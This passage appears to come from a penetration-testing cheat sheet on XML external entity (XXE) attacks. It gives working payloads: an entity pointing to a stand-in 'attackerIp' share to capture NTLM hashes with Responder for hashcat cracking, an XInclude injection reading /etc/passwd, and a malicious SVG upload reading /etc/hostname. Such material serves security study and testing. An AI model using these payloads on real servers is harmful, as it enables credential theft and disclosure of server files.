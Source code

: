 #### Getting NTML

On Windows hosts it is possible to get the NTML hash of the web server user by setting a responder.py handler:

```bash
Responder.py -I eth0 -v
```

and by sending the following request

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM 'file://///attackerIp//randomDir/random.jpg'> ]>
<data>&example;</data>
```

Then you can try to crack the hash using hashcat

## Hidden XXE Surfaces

### XInclude

When integrating client data into server-side XML documents, like those in backend SOAP requests, direct control over the XML structure is often limited, hindering traditional XXE attacks due to restrictions on modifying the `DOCTYPE` element. However, an `XInclude` attack provides a solution by allowing the insertion of external entities within any data element of the XML document. This method is effective even when only a portion of the data within a server-generated XML document can be controlled.

To execute an `XInclude` attack, the `XInclude` namespace must be declared, and the file path for the intended external entity must be specified. Below is a succinct example of how such an attack can be formulated:

```xml
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

Check [https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe) for more info!

### SVG - File Upload

Files uploaded by users to certain applications, which are then processed on the server, can exploit vulnerabilities in how XML or XML-containing file formats are handled. Common file formats like office documents (DOCX) and images (SVG) are based on XML.

When users **upload images**, these images are processed or validated server-side. Even for applications expecting formats such as PNG or JPEG, the **server's image processing library might also support SVG images**. SVG, being an XML-based format, can be exploited by attackers to submit malicious SVG images, thereby exposing the server to XXE (XML External Entity) vulnerabilities.

An example of such an exploit is shown below, where a malicious SVG image attempts to read system files:

```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200"><image xlink:href="file:///etc/hostname"></image></svg>
```

